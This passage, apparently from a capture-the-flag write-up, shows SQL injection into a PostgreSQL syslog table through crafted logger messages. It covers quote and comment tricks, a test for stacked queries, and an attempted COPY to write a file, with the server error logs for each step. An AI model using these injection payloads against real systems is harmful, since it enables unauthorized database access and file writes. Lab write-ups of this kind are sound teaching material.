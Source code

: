 
It worked!

### SQLI - POC

To get this to an injection, I need to try to get a query that is accepted. I
notice that syslog is escaping my `'` with a `\`, but then `postgres` is
seeing it as a string, so the next `'` breaks it. I’ll try to use comments to
get rid of that issue. Eventually I find a query that doesn’t generate a log:

    
    
    roy@zetta:/var/log/postgresql$ logger -p local7.info "test', null)-- -"
    

If I put this into the template, it would look like:

    
    
    INSERT INTO syslog_lines (message, devicereportedtime) values ('test', null)-- -','[date]');
    

Now I want to test for stacked queries, which is the ability to add a `;` and
then another statement in the same statement. I’ll run two queries:

    
    
    roy@zetta:/var/log/postgresql$ logger -p local7.info "test', null); select * from syslog_lines;-- -"
    roy@zetta:/var/log/postgresql$ logger -p local7.info "test', null); select * from notatable; -- -"
    

The first one doesn’t generate any error, but the second one does because
“notatable” does not exist:

    
    
    2019-09-01 13:54:43.680 EDT [15533] postgres@syslog ERROR:  relation "notatable" does not exist at character 95
    2019-09-01 13:54:43.680 EDT [15533] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' test\', null); select * from notatable; -- -','2019-09-01 17:54:43')
    2019-09-01 13:54:43.686 EDT [15537] postgres@syslog ERROR:  relation "notatable" does not exist at character 95
    2019-09-01 13:54:43.686 EDT [15537] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' test\', null); select * from notatable; -- -','2019-09-01 17:54:43')
    2019-09-01 13:54:43.691 EDT [15538] postgres@syslog WARNING:  there is no transaction in progress
    

So stacked queries are enabled.

The last thing I want to check is if I can write a file. I start with this
query:

    
    
    roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); COPY (SELECT * from syslog_lines) To '/tmp/output.csv' With CSV;-- -"
    

But it returns an error:

    
    
    2019-09-01 14:03:21.069 EDT [15659] postgres@syslog ERROR:  syntax error at or near "\" at character 115
    2019-09-01 14:03:21.069 EDT [15659] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' sd\',null); COPY (SELECT * from syslog_lines) To \'/tmp/output.csv\' With CSV;-- -','2019-09-01 18:03:21')
    